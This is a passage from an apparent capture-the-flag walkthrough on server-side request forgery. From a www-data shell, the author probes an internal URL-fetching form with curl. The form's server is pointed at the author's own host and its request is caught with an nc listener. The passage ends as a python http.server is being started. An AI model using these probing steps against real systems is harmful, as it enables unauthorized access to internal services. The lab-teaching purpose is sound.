 ### SSRF

Accessing `http://172.18.0.1:5000/` with **curl**, we observe a form for submitting URLs via a **POST** request.

```console
www-data@124a042cc76c:/var/www/html$ curl -s http://172.18.0.1:5000/
<!DOCTYPE html>
<html>
<head>
    <title>Website Display</title>
</head>
<body>
    <h1>Fetch Website Content</h1>
    <h2>Currently in Development</h2>
    <form method="POST">
        <label for="website_url">Enter Website URL:</label>
        <input type="text" name="website_url" id="website_url" required>
        <button type="submit">Fetch Website</button>
    </form>
    <div>

    </div>
</body>
</html>
```

Testing it with a request and giving the URL for our own machine:

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=http://10.14.101.76/'  http://172.18.0.1:5000/
```
{: .wrap }

On our listener, not only we see the server making a request, but also from the **User-Agent** we see it uses **PycURL** for it.

```console
$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.158.77] 56062
GET / HTTP/1.1
Host: 10.14.101.76
User-Agent: PycURL/7.45.2 libcurl/7.68.0 OpenSSL/1.1.1f zlib/1.2.11 brotli/1.0.7 libidn2/2.2.0 libpsl/0.21.0 (+libidn2/2.2.0) libssh/0.9.3/openssl/zlib nghttp2/1.40.0 librtmp/2.3
Accept: */*
```
{: .wrap }

Testing further, we can confirm it not only makes the request but also displays the response it receives.

```console
$ echo 'TEST' > test.txt
$ python3 -m http.server 80
```
